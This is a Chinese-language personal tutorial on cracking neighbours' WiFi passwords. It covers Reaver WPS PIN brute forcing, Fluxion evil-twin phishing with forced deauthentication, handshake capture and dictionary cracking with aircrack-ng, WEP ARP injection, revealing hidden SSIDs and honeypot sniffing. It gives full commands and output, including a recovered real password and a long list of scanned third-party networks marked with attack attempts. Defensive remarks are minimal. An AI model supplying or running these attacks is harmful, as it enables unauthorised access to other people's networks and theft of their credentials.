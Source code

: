 ❤️️ 文章简介:
================================================================================


    wifi 破解 基本知识介绍.
    wifi 破解方法1: wps 
        wifi 路由器破解: hydra

    wifi 破解方法2: Fluxion 
    wifi 破解方法1: 字典暴破 

    Netgear 6300v2 刷 DDwrt
    wifi 中继设置
    wifi 信号分析





🔵 Aircrack-ng
================================================================================

    破解wifi 最出名的就是 Aircrack-ng 套件.
    这个套件可以安装在Linux下. 也能安装在Mac下.
    ❗️❗️❗️ 强烈建议在Kali下使用Aircrack-ng套件. 同样的套件 Kali下的功能比Mac强大多了.
    ❗️❗️❗️ 强烈建议在Kali下使用Aircrack-ng套件. 同样的套件 Kali下的功能比Mac强大多了.
    ❗️❗️❗️ 强烈建议在Kali下使用Aircrack-ng套件. 同样的套件 Kali下的功能比Mac强大多了.

    Linux 可以使用Aircrack-ng 套件里的所有套件.
    Mac 只能用aircrack-ng suite.中的某几个组件!!! 
    当然Mac也是可以用来破解wifi的.下面简介Mac用字典暴力破解wifi

    🔸 Airport
        其实OSX本身有个命令行工具：airport，利用这个工具可以方便的实现airmon-ng中的某些功能!!!比如查看附近wifi.

        /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport 
        最好添加airport的环境路径. 不然用airport 每次都要输这么长的命令...

    🔸 Mac Airport 查看附近 wifi：
        /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 scan
          219 6c:b0:ce:bd:d1:5b -27  3       N  -- WPA2(PSK/AES/AES)
          219-5 6c:b0:ce:bd:d1:5a -26  153   Y  -- WPA2(PSK/AES/AES)

    🔸 Mac 安装 aircrack-ng 套件.   brew install aircrack-ng

    🔸 Mac 抓握手包.
        sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 3

          en0   本机无线网卡设备；
          sniff 嗅探.
          3     要破解wifi的信道
          结束抓包后的数据保存在/tmp.

          等待一段时间，后就可以按control+C结束监听，
          ❗️ 这里就是为什么不推荐用Mac来抓包了.
          Mac下你完全不知道是否抓到握手包了.
          用Kali 抓包 就能实时显示是否抓到握手包.

          这时看到提示，一个airportSniffXXXXXX.cap的文件被保存在/tmp文件夹中。
          现在就可以使用类似wireshark之类的网络分析工具在线下打开它了。

          现在你用手机去连 219 这个wifi.连上后就可以停止抓包(Ctrl + C)了..
          ❗️ 连wifi: 不一定要输入wifi密码.如果别人之前连过wifi的.只要打开wifi 也算连的! 也可以获取握手包.
          ❗️ 人家走来走去. 就会不停的连wifi. 所以这个 握手包是比较容易获得的. 重点就是字典密码..

    🔸 Mac 分析破解握手包
        sudo aircrack-ng -w ~/passwords.txt /tmp/airportSniffCd2nGz.cap | grep handshake
          1  6C:B0:CE:BD:D1:5B  219                       WPA (1 handshake)
          2  CC:81:DA:41:BE:58  @PHICOMM_50               WPA (0 handshake)
          3  D8:49:0B:A7:47:F0  ChinaNet-Ccfr             WPA (0 handshake)

              -w：  指定字典文件路径；
              －b： 指定要破解的wifi 地址
              /tmp. 抓包文件路径.
              grep: 有抓到 handshake 数据包的wifi才能进行下一步的破解!!.
                    上面只有第一个是可以用字典开尝试出对方密码的.
                    这里必须用grep. 你抓到的数据是成千上万条. 你必须进行过滤.
                    handshake 前面的数字不为0的才有用. 
                    handshake 前面的数字为0的都没用的.



🔵 握手包

    wifi破解中对我们最重要的数据包是：包含密码的包----也叫握手包。
    当有新用户或老用户断开后自动连接wifi时，都会发送握手包.



  🔵 wifi 破解思路.
================================================================================

    4种方法. 强烈建议按顺序尝试.方法选择很重要!!!  
    
    🔸1.  尝试各种wifi钥匙.

    🔸2.  wps (Reaver)破解: 

            路由器 wps 功能:
            WPS用于简化Wi-Fi无线的安全设置和网络管理。

            它支持两种模式：
            个人识别码(PIN)模式和按钮(PBC)模式。
            路由器在出产时默认都开启了wps但这真的安全么！

            个人码(PIN)
            有人可能会问了什么是pin码？
            WPS技术会随机产生一个八位数字的字符串作为个人识别号码（PIN）
            Pin码会分成前半四码和后半四码。
            前四码如果错误的话，那路由器就会直接送出错误讯息，而不会继续看后四码，意味着试到正确的前四码，最多只需要试 10000 组号码。
            一旦没有错误讯息，就表示前四码是正确的，而我们便可以开始尝试后四码。 
            后四码比前四码还要简单，因为八码中的最后一码是检查码，由前面七个数字产生，
            因此实际上要试的只有三个数字，共一千个组合。
            这使得原本最高应该可达一千万组的密码组合（七位数+检查码），瞬间缩减到仅剩 11,000 组，大幅降低破解所需的时间.

            根据路由MAC地址算出默认pin码
            另外有种更快破解wifi的方法就是根据路由MAC地址（MAC是路由器的物理地址，是唯一的识别标志）算出默认出产时的pin码例如以下软件 还可以通过别人共享的找到pin码！

            腾达某款某Mac地址能算出路由器的Pin码
            适用于MAC地址前6位为“C83A35/00B00C”的无线路由器
            为了确保Pin的真实性,最好用 Inflator （俗称:打气筒) 进行验证一下,顺便跑出PSK密码,一般输入计算出来的前五位数
            接下来就交给打气筒跑，这样才能更好的保证密码出来.


            如果无线路由器开启了WPS，60+% 的路由器都开启这个wps功能!! 就可以用这种攻击方法.成功率极高.
            
            WPS的pin码并没有加密,Reaver会暴力破解pin码，
            找到pin码也就找到了密码。一般用 2-12小时.就能破解.
            当然有效高级点的路由器有保护机制. 
            你尝试次数过多就不然你尝试. 如下面的提示.这样就只能换别的方法了.
            [+] Sending EAPOL START request
            [!] WARNING: Receive timeout occurred            




    🔸3. Fluxion 破解:
            fluxion 无线破解工具，原理更偏向于社会工程学中的钓鱼.
            让wifi主人自己输入密码. 免去跑包时间

            Fluxion 创建一个名字和对方一模一样的假wifi. 
            Fluxion 利用攻击 强制断线对方路由器下所有客户端. 
            被踢的客户端手动连接到我们的假wifi.
            连接过程中我们的假wifi会弹框要求输入真路由器的wifi密码. 
            对方输对了就停止攻击. 就获得对方密码了.
            对方输错了就一直攻击. 


    🔸4.  跑包 - 暴力破解: 
            用密码字典暴力破解.费时费力费电.是没办法的办法. 破解率只有30%左右.
            对方是弱密码就好破解.对方强密码就很难破解.
            简单点说 你的字典里有对方密码.那么就能破解.不然就没戏..
            重点就是字典. 找字典也麻烦. 而且字典大小往往5G+ 的...

            暴力破解就是抓取一个 对方wifi的握手包.
            这个握手包里有对方路由器 用wpa2加密方式加密后的密码的!!!
            加密是不可逆的! 
                你可以用 wpa2 方式加密 12345678 这个密码, 得到很长一串加密后的密码 xxxxxxx.
                就算你获取了 xxxxxxx 这个加密后的密码(这里也就是握手包). 
                也知道对方是用wpa2这种加密方式加密的.
                但是你是算不出 12345678 这个密码的.
                你能做的只能是尝试. 
                你的爆破字典里有千万密码. 
                每个密码都用wpa2 这个加密方式得到对应的加密后的密码. 
                用这个加密后的密码 和 wifi握手包里的加密后的密码对比. 
                如果一致就说明找到密码了.


      🔸 5. 路由器漏洞 ???  未亲测!!!

              路由器本身就有一些漏洞.
              暴力破解还不行的话.可以考虑利用路由器漏洞

              Routerpwn 只是一个网站 但是可以直接查看路由器漏洞.
              http://routerpwn.com/

              这个网站 列出很多的路由器厂家.比如国内最常见的  tplink 
              左边是漏洞种类. 右边是 该漏洞涉及的型号

              网页漏洞 右边 有个设置IP的. 填上路由器的IP地址.
              然后 跳出登录界面. 一般都是 admin admin

              ## arpspoof
              Arpspoof是一个非常好的ARP欺骗的源代码程序。它的运行不会影响整个网络的通信，该工具通过替换传输中的数据从而达到对目标的欺骗。




🔵 暴力破解 简介:
================================================================================

  5 位数密码 普通电脑破解 2-7天
  10位数密码 普通电脑破解 x年!!

🔸 Tables 

    在很多年前，国外的黑客们就发现单纯地通过导入字典，采用和目标同等算法破解，
    其速度其实是非常缓慢的，就效率而言根本不能满足实战需要。
    之后通过大量的尝试和总结，黑客们发现如果能够实现直接建立出一个数据文件，
    里面事先记录了采用和目标采用同样算法计算后生成的Hash散列数值，
    在需要破解的时候直接调用这样的文件进行比对，破解效率就可以大幅度地，甚至成百近千近万倍地提高，
    这样事先构造的Hash散列数据文件在安全界被称之为Table表(文件)。


🔸 Rainbow Tables

    最出名的Tables是Rainbow Tables，即安全界中常提及的彩虹表，它是以Windows的用户帐户LM/NTLM散列为破解对象的。
    在 Windows2000/XP/2003系统下，账户密码并不是明文保存的，而是通过微软所定义的算法，保存为一种无法直接识别的文件，即通常所说的SAM文件，
    这个文件在系统工作时因为被调用所以不能够被直接破解。
    但我们可以将其以Hash即散列的方式提取，以方便导入到专业工具破解，提取出来的密码散列类似于下面：

    1、Administrator:500:96e95ed6bad37454aad3b435b51404ee:64e2d1e9b06cb8c8b05e42f0e6605c74:::

    若是以传统破解方式而言，无论是本地，还是内网在线破解，效率都不是很高。
    据实际测试，单机环境下，破解一个14位长包含大小写字母以及数字的无规律密码，一般是需要3~~9小时的，
    这个时间值会随着密码的复杂度及计算机性能差异提升到几天甚至数月不等。
    虽然说大部分人都不会使用这样复杂的密码，但对于目前很多密码足够复杂并且长度超过10位的密码比如“Y1a9n7g9z0h7e”，还是会令黑客们头痛不已。

    2003年7月瑞士洛桑联邦技术学院Philippe Oechslin公布了一些实验结果，他及其所属的安全及密码学实验室(LASEC)采用了时间内存替换的方法，使得密码破解的效率大大提高。作为一个例子，他们将一个常用操作系统的密码破解速度由1分41秒，提升到13.6秒。这一方法使用了大型查找表对加密的密码和由人输入的文本进行匹配，从而加速了解密所需要的计算。这种被称作“内存-时间平衡”的方法意味着使用大量内存的黑客能够减少破解密码所需要的时间。

    于是，一些受到启发的黑客们事先制作出包含几乎所有可能密码的字典，然后再将其全部转换成NTLM Hash文件，这样，在实际破解的时候，就不需要再进行密码与Hash之间的转换，直接就可以通过文件中的Hash散列比对来破解Windows帐户密码，节省了大量的系统资源，使得效率能够大幅度提升。当然，这只是简单的表述，采用的这个方法在国际上就被称为Time-Memory Trade-Off ，即刚才所说的“内存-时间平衡”法，有的地方也会翻译成“时间—内存交替运算法”。其原理可以理解为以内存换取时间



  🔸 Misc
    正是由于Rainbow Tables的存在，使得普通电脑在5分钟内破解14位长足够复杂的Windows帐户密码成为可能。
    如上图4可以看到，类似于c78j33c6hnws、yemawangluo178、38911770这样的Windows帐户密码几乎全部在180秒即3分钟内破出，最短只用了5秒，个别稍长的密码破解开也没有超过3分钟。


    现在，在理解了“内存-时间平衡”法和Table的存在意义后，让我们回到无线领域，破解WPA-PSK也是同样的意思。在2006年举行的RECON 2006安全会议上，一位来自Openciphers组织的名为David Hulton的安全人员详细演示了使用WPA-PSK Hash Tables破解的技术细节，给与会者极大的震动。

    下面所示的为会议上引用的WPA加密以及主密钥对匹配等建立WPA Tables所需理念的原理图，其中，MK为密码原文，PMK就是通过PBKDF2运算所得出的数值，PTK就是在PMK的基础上进行预运算产生的WPA Hash，这个Hash将用来和WPA 握手包中的值对照，若匹配即为密码。

    当然，要说明的是，Tables的建立并没有想象的那么容易，就建立本身而言，其效率非常低下，加上需要指定预攻击AP的SSID，想要建立一套针对所有常见接入点，并采用简单密码的WPA-PSK Hash Tables，其生成文件占据的硬盘空间最少也要1~~3G


    不过，对于无线网络管理员，并不能因此松一口气，真正的噩梦才刚刚开始，因为这个方法也同样适用于破解WPA2加密。而且，国外一些地下高级黑客组织，也已经建立了高达500G的详尽WPA/WPA2攻击Table库，甚至一些基本完善的WPA-PSK Hash Tables已经在黑客网站上开始公开出售，只需要支付120美金左右，就会有8张包含WPA-PSK Hash Tables 的DVD光盘通过Fedex直接送到你的手上。




  🔸 暴力破解加速
    wpa 加密的无线很容易收到 字典攻击.
    普通电脑 跑一个好点的字典需要 几天/几星期.
    但是有网站专门提供破解wifi的字典. 并且提供强大的服务器.帮你破解密码!!!!
    只需要几十分钟/几小时就可以...

    字典: 有很多
    普通字典.  500MB .能破解20%的wifi.
    中国拼音字典、手机字典、字母数字字典.
    服务器资源有限. 不可能每个wifi都跑一个非常非常大的字典的..

    收费跑包网站... https://gpuhash.me/?menu=cn-main
        简单字典免费跑.但是跑出的密码 要 0.005btc..
        高级字典不管是否成功 收费 0..15 BTC 









  🔵 wifi 三种加密方式: 
================================================================================

        wep   非常少见,已过时
        wpa   少见.
        wpa2  最最常见

            不同的加密方式的wifi密码破解难度不一样.
            wep加密方式很古老了.几乎见不到了.分分钟就能破解. 
            wpa 加密方式也很少见. wpa2 加密方式是最常见的. 本文就以wpa2 为例.


            🔸 wep 破解简介
                只要获得足够的 beacons 和 data 数据就可以破解.
                理想情况下是100000+。你可以等，也可以使用aireplay加快这个进程。

                aireplay-ng -1 0 -a C8:3A:35:30:3E:C8 wlan0mon
                aireplay-ng -3 -b C8:3A:35:30:3E:C8 wlan0mon
                                          等到抓取的数据充足，Ctrl+C停止

                aircrack-ng ~/*.cap       开始破解
                airmon-ng stop wlan0mon   最后.结束无线网卡的监控模式：






🔵Aircrack-ng  
    破解无线 WPA2 加密的工具套装. 了解就好.不必深入.

    🔸aircrack-ng
      主要用于WEP及WPA-PSK密码的恢复，
      只要airodump-ng收集到足够数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解

    🔸airmon-ng
        用于改变无线网卡工作模式，以便其他工具的顺利使用
        🔅 sudo airmon-ng start wlan0mon 
          wlan0mon 参考 ifconfig 里的无线网卡名称
          本来是 wlan0 开启监听模式后 就变成 wlan0mon 了 
          用于嗅探的网卡是一定要处于monitor监听模式地,对于无线网络的嗅探也是一样。

    🔸airodump-ng     查连接路由器的客户端的 Mac
        🔅 sudo airodump-ng wlan0mon
          bssid  是路由器 mac 地址
          station 是客户端/手机的 mac 地址
          这里能看到 那个路由器下面 连了哪个手机.

        🔅sudo airodump-ng --ivs –w longas -c 6 wlan0mon
            —ivs  设置过滤    减少文件大小
            —c  设置 要进行攻击/破解的路由器的 工作频道 
            —w 保存文件名 w=write 的意思 生成的文件 文件名会变成 longas-01.ivs 第一次攻击 就是longas-01.ivs 第二次攻击 就是  longas-02.ivs


    🔸aireplay-ng
        在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量

        若连接着该无线路由器/AP的无线客户端正在进行大流量的交互，比如使用迅雷、电骡进行大文件下载等，则可以依靠单纯的抓包就可以破解出WEP密码。

        但是无线黑客们觉得这样的等待有时候过于漫长，于是就采用了一种称之为“ARP Request”的方式来读取ARP请求报文，并伪造报文再次重发出去，以便刺激AP产生更多的数据包，从而加快破解过程，这种方法就称之为ArpRequest注入攻击。

        具体输入命令如下：
        aireplay-ng -3 -b AP的mac -h 客户端的mac wlan0mon 

        参数解释：
        -3 指采用ARPRequesr注入攻击模式；
        -b 后跟AP的MAC地址，这里就是前面我们探测到的SSID为TPLINK的AP的MAC；
        -h 后跟客户端的MAC地址，也就是我们前面探测到的有效无线客户端的MAC；
        最后跟上无线网卡的名称，这里就是mon0啦。
        回车后将会看到如下图12所示的读取无线数据报文，从中获取ARP报文的情况出现。



    🔸airserv-ng    可以将无线网卡连接至某一特定端口，为攻击时灵活调用做准备
    🔸airolib-ng    进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件
    🔸airdecap-ng   用于解开处于加密状态的数据包






🔵  查看隐藏ssid.
    查看wifi的时候 有些wifi名字是 length xx 的 没有ap名. 但是bssid 还是有的.
    这些路由器就是隐藏了ssid的!!!  要找出ssid 很简单.
    
    查看ssid 方法:
    # airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 wlan0mon
    # aireplay-ng -0 30 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon
    破解密码的方法不变；使用上面两个命令就可以轻松得到ap名。
    事实证明，隐藏SSID并不管啥事；其实设置一个复杂的密码比隐藏SSID要管用的多。




🔵 wifi 蜜罐

    假冒的系统. 对对方进行监控...

    “热点蜜罐”(Hot-spot Honeypot)，吸引试图连接到WiFi的设备。
    WiFi Pineapple能伪装成用户的设备在“寻找”的WiFi网络。
    WiFi Pineapple只适用于没有加密的WiFi网络，对使用WPA加密的WiFi网络不起作用

    cain&able 局域网渗透的工具，能看到对方很多密码的明文，对方都上了那些网站，自己去看看教程吧，很老的工具了。
    应该还有更好使的，我就不太清楚了。
    PS：架设蜜罐WIFI很不道德………………

    初级：可以看上网记录  ps：http
    用你电脑建立wifi，ssid设置为他人曾经连接过的ssid名称，然后打开抓包软件（wireshark）设定好网卡（你发送wifi的网卡）开始抓取，然后看对应的协议层数据就行了。









  🔵 软硬件环境:
    Kali (必须) + USB无线网卡(必须): Netgear WNA1100 

    🔸 Kali 
          可以是虚拟机. 也可以是实体机.  强烈建议用虚拟机.非常方便!!
          如果是Kali虚拟机, 要让Kali识别无线网卡.就必须用外置无线网卡.
          如果是Kali实体机. 要让Kali识别无线网卡.可以用笔记本内置网卡.

          Kali开启 ssh
              - vi /etc/ssh/sshd_config
                  PermitRootLogin yes  这行改成这样.
              - service ssh restart
              - service ssh status


    🔸 无线网卡

        不管实体机是用有线还是无线上网的. 到了虚拟机都是有线方式上网的.
        
        比如要用kali虚拟机来破解wifi,那么必须要让虚拟机可以使用无线网卡.
        由于虚拟机的种种原因.
        虚拟机不能使用笔记本内置的无线网卡!!!只能在笔记本上再插个外置USB无线网卡.

        ❗️❗️❗️如果虚拟机里要使用无线网卡,只能使用外置无线网卡!❗️❗️❗️
        ❗️❗️❗️如果虚拟机里要使用无线网卡,只能使用外置无线网卡!❗️❗️❗️

        ❗️❗️❗️不是所有无线网卡都能在Linux下运行的!!要看型号的.❗️❗️❗️
        ❗️❗️❗️不是所有无线网卡都能在Linux下运行的!!要看型号的.❗️❗️❗️

          🔸 查看虚拟机无线网卡情况
              ifconfig → 出现类似 wlan0的(wlan开头的)才说明虚拟机识别到了无线网卡.
              如果你用虚拟机运行Kali. 不用外置的USB网卡 是永远也不会有wlan网卡出现的.
              别多想了. 20块钱的WNA1100无线网卡. 最最便宜的了.买吧.

          🔸 Kali 虚拟机推荐USB网卡:
              - Netgear WNA1100 我用的那个...淘宝 20块钱一个!!!
              - TP-LINK WN722N 要v1版本. 不要V2版本.贵! 得150￥+  不推荐..... 

          🔸 Kali VM虚拟机无线网卡驱动
              Netgear WNA1100 至少在 kali 2016.2 版本是免驱的. 插上连到虚拟机就能用










⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️--WPS 破解---⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

如果发送pin码过快，有可能造成路由器崩溃；就类似对服务器的DDOS攻击。

🔅 airmon-ng start wlan0 && wash -i wlan0mon  开启无线网卡监控模式 并  查看四周开启wps的 wifi  
🔅 airodump-ng wlan0mon    查看四周所有 wifi      

BSSID                  Channel       RSSI       WPS Version       WPS Locked        ESSID
------------------------------------------------------------------------------------------
F0:B4:29:DA:BB:84       8            00        1.0               No                (null)
A8:57:4E:D1:ED:6A      11            00        1.0               No                T2-20B
50:BD:5F:4C:44:C7       3            00        1.0               No         Birdhouse 2.4G

如果什么也没有表示周围没有开启WPS的无线路由器。记住要破解wifi的BSSID。
wps locked 下是no  ➜  wps 没有被关闭.  ➜ 也就是说wps是开启的...

🔅 reaver -i wlan0mon -b E4:D3:32:B4:83:BC -vv -a    开始破解 接下来就是等... 2-10个小时...
   👁‍🗨 有些路由器对pin破解次数有一点限制. 会自动停止几秒.再自动破解. 反正等就是了..

    [+] Sending M2 message
    [P] E-Hash1: 59:24:ff:26:5d:e6:7f:54:d5:ef:aa:fa:5b:15:25:8e:5b:d1:3e:3d:db:bf:69:92:a6:ef:20:ad:23:ad:10:d9
    [P] E-Hash2: 9d:be:01:06:88:40:4d:ef:61:7d:6e:0d:e7:12:bc:6f:88:fd:b6:34:d2:9d:67:22:0b:b4:72:9d:dd:87:aa:e0
    [+] Received M3 message
    [+] Sending M4 message
    [+] Received M5 message
    [+] Sending M6 message
    [+] Received M7 message
    [+] Sending WSC NACK
    [+] Sending WSC NACK
    [+] Pin cracked in 31654 seconds
    [+] WPS PIN: '31070003'
    [+] WPA PSK: 'njs236121'
    [+] AP SSID: 'MERCURY_210'

      👹 njs236121 就是wifi密码了!!!!  等了8.8小时.












🔵 Reaver 命令详解

  reaver -i mon0 -b mac -S -v 
    -i 监听后接口名称
    -b 目标mac地址
    -a 自动检测目标AP最佳配置
    -S 使用最小的DH key（可以提高PJ速度）
    -vv 显示更多的非严重警告
    -d  即delay每穷举一次的闲置时间 预设为1秒
    -t  即timeout每次穷举等待反馈的最长时间
    -c  指定频道可以方便找到信号，如-c1 指定1频道

    示例: 
    🔸 reaver -i mon0 -b MAC -a -S –d9 –t9 -vv
    　 reaver -i wlan1 -b 54:E6:FC:35:C5:82 -S -N -vv -c 4

  　　应因状况调整参数（-c后面都已目标频道为1作为例子）
  　　目标信号非常好: reaver -i mon0 -b MAC -a -S -vv -d0 -c 1
  　　目标信号普通: reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1
  　　目标信号一般: reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

      在穷举的过程中，reaver会生成以路由mac地址为名的wpc文件,
      这个文件在kali系统中/etc/reaver/文件夹下。
      一时半会pin不出来，过段时间pin的时候命令加参数 -s file.wpc，就会根据之前的进度继续pin。

　 🔸 注意点：

　　1.一般reaver 前四位默认是从0开始，如果想从指定的数值开始爆破需要添加-p参数：
      -p 9000,这个意思就是从9000开始，只要不pin死路由器，可以多开几个窗口，从不同的数值开始。

　　2.最后pin完最后会显示WPS PIN(正确的pin码)和WPA PSK(wifi密码)，
      同时如果WPS功能没关，pin码没修改，无论怎样修改密码，都可以通过pin码获取wifi密码: 
      reaver -i mon0 -b mac -p pin码，来再次得到密码

　　3.一般pin的过快，会把路由器pin死，所以一般还会加上-d5 -t5参数，添加5秒延时，当然数值可以自己改。
 
　  4.防范措施：
　　  - WPS功能对个人基本上没啥作用，还是关了吧。
　　  - 现在的路由一般会有防pin措施，例如会有300秒pin限制，但这个是伪防pin,作用不是很大




















reaver -i wlan0mon -b A8:57:4E:A7:47:2C -vv

7C:08:D9:DB:2C:CA   1  00  1.0  No   ChinaNGB-602
28:6C:07:43:98:8C   1  00  1.0  No   Tommy's appartment
38:83:45:FD:82:12   1  00  1.0  No   tingting
E0:28:61:7D:9A:A8   1  00  1.0  No   ChinaNet-fmWT
08:10:7A:1D:9E:A7   1  00  1.0  No   ChinaNet-2.4G-Home  HuA
D4:67:E7:0F:1B:59   1  00  1.0  No   ChinaNet-iPTy
98:BC:57:6C:C1:B3   1  00  1.0  No   ChinaNGB-YdXfJX
D0:60:8C:41:B0:EA   3  00  1.0  No   ChinaNet-m77z
F0:B4:29:D1:69:C3   3  00  1.0  No   5G就是它               ❌.WARNING: Receive timeout occurred
FC:19:D0:4C:0E:6A   3  00  1.0  No   ChinaNGB-1607
00:E0:01:00:FD:84   4  00  1.0  No   vYou_DDPai_mini2
A0:91:C8:49:96:AE   5  00  1.0  No   ChinaNet-4JQw
F4:CB:52:07:9C:FC   5  00  1.0  No   HUAWEI-4ARMLN
EC:88:8F:54:66:60   6  00  1.0  No   wqs12
8C:21:0A:90:08:AC   6  00  1.0  No   MERCURY_9008AC
60:BB:0C:61:38:0E   6  00  1.0  No   ChinaNet-yQu6
14:75:90:C7:9A:02   6  00  1.0  No   lulu
BC:D1:77:B3:11:C0   6  00  1.0  No   TP-LINK_B311C0
D4:A1:48:92:30:C4   6  00  1.0  No   appleshi_2.4G
14:75:90:08:4D:5E   6  00  1.0  No   lys               ❌. timeout... WARNING: Receive timeout occurred
D4:61:2E:BE:61:33   6  00  1.0  No   HUAWEI-KTNNYX
5C:63:BF:FE:8A:B8   8  00  1.0  No   ChinaNet-8AB8     ✔ ?? .... 信号不好么...  买!!
F0:B4:29:E6:D2:C1   8  00  1.0  No   Xiaomi_D2C0
D0:60:8C:42:F6:9A  10  00  1.0  No   ChinaNet-3KXp
BC:D1:77:49:38:7A  11  00  1.0  No   TP-LINK_49387A
E0:28:61:81:FA:20  11  00  1.0  No   ChinaNet-UXjM
A8:57:4E:A7:47:2C  11  00  1.0  No   UU          ❌. timeout... WARNING: Receive timeout occurred              
80:D4:A5:29:85:28  11  00  1.0  No   CU_GKB2
C4:C7:55:0F:85:31  11  00  1.0  No   ChinaNet-9d2f
FC:19:D0:3E:45:2F  11  00  1.0  No   ChinaNGB-Lja7VQ
D4:AD:2D:01:F6:95  11  00  1.0  No   ChinaNet-i7kp
78:C1:A7:0B:88:4E  11  00  1.0  No   ZTE-2.4G-0B884E
00:24:A5:34:C1:CD  11  00  1.0  No   zjhBuffalo-G-TKIP
7C:08:D9:B5:FD:6E  12  00  1.0  No   ChinaNGB-1710
98:BC:57:70:62:A9  13  00  1.0  No   ChinaNGB-YdM7rV
28:6C:07:DB:6B:F1  13  00  1.0  No   Xiaomi_6BF0
7C:08:D9:B6:A6:5B  13  00  1.0  No   ChinaNGB-1610
44:6E:E5:96:9F:44   1  00  1.0  No   HUAWEI-CJD44D
98:BC:57:3B:D3:7A   1  00  1.0  Yes  ChinaNGB-YDDeCa
08:3F:BC:B0:B1:ED   4  00  1.0  No   ChinaNet-V7Su
50:BD:5F:05:22:F2   6  00  1.0  No   TP-LINK_22F2
60:BB:0C:DB:33:ED   6  00  1.0  No   ChinaNet-2XSV
F0:B4:29:21:07:A5  11  00  1.0  No   G-family
98:F4:28:01:69:4E  11  00  1.0  No   ChinaNet-WG2t
98:BC:57:6C:E5:50  12  00  1.0  No   ChinaNGB-YdcC6d
6C:59:40:14:58:A8   1  00  1.0  No   MERCURY_58A8
68:9F:F0:5A:B8:2D   1  00  1.0  No   ChinaNet-HiAA
9C:21:6A:F9:E9:F5   1  00  1.0  No   xiaokeai              ....  ❌ ❌
98:BC:57:72:43:9C   3  00  1.0  No   ChinaNGB-YdeK7p
28:6C:07:CC:CD:A8   3  00  1.0  No   Xiaomi_CDA7
D0:60:8C:42:B2:B7   1  00  1.0  No   ChinaNet-sy43
7C:08:D9:B6:85:76   2  00  1.0  No   ChinaNGB-CHHkXB
14:75:90:4D:16:C6   6  00  1.0  No   TP888888
60:BB:0C:B3:3A:E0   6  00  1.0  No   ChinaNet-RtVF
F0:B4:29:E6:A7:FE   8  00  1.0  No   Xiaomi_1902
54:BE:53:5A:B9:47  11  00  1.0  No   ChinaNet-6xkb
